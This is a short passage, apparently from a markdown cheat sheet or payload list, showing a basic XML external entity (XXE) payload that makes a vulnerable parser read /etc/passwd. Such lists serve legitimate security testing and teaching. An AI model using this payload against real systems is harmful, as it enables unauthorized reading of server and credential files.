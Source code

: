 - Basic
	```XML
	<?xml version="1.0"?> <!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]> <root>&read;</root>
	```

- 